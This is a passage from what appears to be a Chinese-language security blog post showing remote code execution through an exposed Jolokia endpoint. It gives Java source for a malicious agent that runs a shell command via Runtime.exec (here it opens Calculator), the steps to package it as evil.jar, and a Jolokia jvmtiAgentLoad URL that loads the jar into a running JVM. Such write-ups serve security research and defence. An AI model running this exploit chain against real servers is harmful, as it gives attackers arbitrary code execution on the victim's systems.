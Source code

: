 public class JavaAgent {
    private static final String RCE_COMMAND = "open -a Calculator.app";
    public static void agentmain(String args, Instrumentation inst){
        System.out.println("success123123");
        try{
           Runtime.getRuntime().exec(RCE_COMMAND);
        }catch (Exception e){
       e.printStackTrace();
    }
    System.out.println("fail"); 
    }

}
j7ur8@192 /tmp %` 

将其打包成`jar`文件

`javac org/example/JavaAgent.java
jar cfvm evil.jar META-INF/MANIFEST.MF . .` 

[![](https://storage.tttang.com/media/attachment/2022/11/29/2855d9e9-2440-468c-8d4d-23527b793aee.png)
](https://storage.tttang.com/media/attachment/2022/11/29/2855d9e9-2440-468c-8d4d-23527b793aee.png)

1.  使用`jvmtiAgentLoad`操作加载恶意`JavaAgent`

`http://127.0.0.1:9094/jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/tmp!/evilagent!/evil.jar` 

成功弹出计算器

[![](https://storage.tttang.com/media/attachment/2022/11/29/a6abebe8-badc-4d8c-8797-4e964604f008.png)
](https://storage.tttang.com/media/attachment/2022/11/29/a6abebe8-badc-4d8c-8797-4e964604f008.png)

[参考](#toc__11)
--------------

*   [https://hackerone.com/reports/1547877](https://hackerone.com/reports/1547877)
*   [http://tttang.com/archive/1831/](http://tttang.com/archive/1831/)
*   [https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

上述三种攻击手法的环境要求基本都需要`JDK>8`，这样的话，了解和熟悉专业产品才能进行更好的攻击吧。